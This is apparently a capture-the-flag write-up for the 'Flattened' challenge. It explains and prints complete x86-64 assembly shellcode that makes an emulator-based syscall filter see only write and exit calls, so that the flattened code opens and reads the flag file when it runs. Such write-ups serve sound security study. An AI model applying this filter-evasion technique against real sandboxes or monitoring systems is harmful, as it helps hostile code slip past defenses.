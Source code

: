 
# Flattened

## Overview

### Challenge Overview

The challenge features a program that receives shellcode as input, which it then executes.
The catch is that the program first removes all branching instructions from the shellcode before executing it and aborts on illegal system calls (syscalls).
We need to supply it with shellcode that passes (or bypasses) this filter in order to retrieve the flag.


### Approach Overview
Our approach works by creating shellcode that passes the filter, but when the branching instructions are removed, the semantics change in order to retrieve the flag.

## Challenge
After receiveing the shellcode, the challenge first simulates it with [qilling](https://github.com/qilingframework/qiling) (we refer to this as the _simulation phase_).
All instructions that are executed during the simulation phase are inserted into a buffer, with the exception of branching instructions (`jmp`, `call`, `ret`, etc.)
We refer to the shellcode in this buffer, as the _flattened_ shellcode.
If an _illegal syscall_ is encountered during simulation, that is, a syscall for which register `rax` is neither 1 (`write`) nor 60 (`exit`), the simulation phase aborts and the challenge ends.
Otherwise, the instructions are executed on the host, which we refer to as the _execution phase_.

## Approach

We start with the stock shellcode for retrieving the flag from a file named "flag.txt".
The following shellcode opens the file named "flag.txt", reads its content to a buffer, prints this buffer to `STDOUT` and exists.
These steps are achieved by using the syscalls `open`, `read`, `write` and `exit`, respectively.
```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
mov rax, 2 ; code for syscall "open"
xor rsi, rsi ; "flags" argument is "read-only"
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e 
push word 0x6761
push word 0x6c66 
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
xor rdx, rdx ; file mode (only applicable when creating a new file (I think))
syscall ; open file

; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read"
mov rsi, rsp ; use stack for read buffer
xor rdx, rdx 
mov dl, 128 ; read length
mov rax, 0 ; code for syscall "read"
syscall ; read flag

; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi 
mov dil, 1 ; STDOUT fd
xor rax, rax 
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit
```
This shellcode will not pass the filters, because it contains two illegal syscalls:
`rax=2` (`open`) and `rax=0` (`read`)

We need to change the shellcode so that it passes the filters during simulation, but still retrieves the flag during execution.
We achieve this by exploiting the fact that branching instructions are removed during the simulation phase.
In other words, during the simulation phase, only legal syscalls will be encountered (three writes and an exit).
Then, by flattening the shellcode, the semantics change so that the flag is retrieved instead.

We achieve this in the following way.
The `call` instruction pushes the address of the next instruction to the stack.
This is necessary for function calls, so that control-flow can continue from where the function was called, after its completion.
This instruction is removed by the challenge and will therefore not exists in the flattened shellcode.
Therefore, during simulation we have a different value at the top of stack than during execution.
To assign a specific value to a register, depending on whether we are in simulation or execution phase, we use the following pattern.
Say we want to assign the value `x` to the register `rax` during simulation and `y` during execution.
```asm
push y ; value for execution
push rsp
call _call1
dd x ; value for simulation
_ret1:
mov rax, [rsp]
mov rax, [rax]
...
_call1:
jmp _ret1
```
During simulation, the `call` instruction pushes the address of the `x` "instruction" to the stack (its fine if this is an illegal instruction, since it will not be executed in either simulation or execution).
Then, it branches to `_call1`, but just to jump back immediately.
At this point we have:
`rsp --> < x insn addr> --> < x >`
Therefore, the instructions below will load `x` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```

On the other hand, during execution, the flattened shellcode will be executed (note, `dd x` is not included, since it was not executed during simulation):
```asm
push y ; value for execution
push rsp
mov rax, [rsp]
mov rax, [rax]
...
```
Therefore, we have:
`rsp --> < some addr > --> y`
In this case, the instructions below will load `y` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```
Therefore, we have successfully loaded a different value into a register depending on whether we are in simulation phase or execution phase.


We will mainly use this technique to set `rax=1` during simulation and `rax=2` / `rax=0` during execution.
However, we also need this technique to ensure we pass sensible arguments to the different syscalls, in both simulation and execution.

The final shellcode follows.

```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
push 2 ; code for syscall "open" (execution)
push rsp 
call _call1
dd 1 ; code for syscall "write" (simulation)
_ret1:
mov rax, [rsp]
mov eax, [rax]
xor rsi, rsi ; "flags" argument "read-only" (execution) / It seems a buffer of NULL for write is acceptable (simulation)
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e
push word 0x6761
push word 0x6c66
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
push rdi ; pointer to filename for "open" (execution)
push rsp 
call _call2
db 01 ; STDOUT for "write" (simulation)
times 7 db 00
_ret2:
mov rdi, [rsp]
mov rdi, [rdi] 
xor rdx, rdx ; open "mode" (execution) / write "count" (simulation) (0, so nothing will be written)
syscall ; open file (execution) / write "" (simulation)


; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read" (execution) / move num bytes written (0) to rdi (simulation) 
mov rsi, rsp ; use stack for buffer
xor rdx, rdx 
push 0 ; code for syscall "read" (execution)
push rsp 
call _call3
db 01 ; code for syscall "write" (simulation)
times 7 db 00
_ret3:
mov rax, [rsp]
mov rax, [rax]
push 128 ; size for "read" (execution)
push rsp 
call _call4
times 8 db 0 ; size for "write" (simulation)
_ret4:
mov rdx, [rsp]
mov rdx, [rdx]
push rdi ; file descriptor for "read" from "open" (execution)
push rsp
call _call5
db 01 ; STDOUT file descriptor for "write" (simulation)
times 7 db 00
_ret5:
mov rdi, [rsp]
mov rdi, [rdi]
syscall ; read file (execution) / write "" (simulation)


; Since the "write" and "exit" syscalls are legal, we can use the stock shellcode from here.
; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi
mov dil, 1 ; STDOUT fd
xor rax, rax
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit

_call1:
jmp _ret1
_call2:
jmp _ret2
_call3:
jmp _ret3
_call4:
jmp _ret4
_call5:
jmp _ret5
```
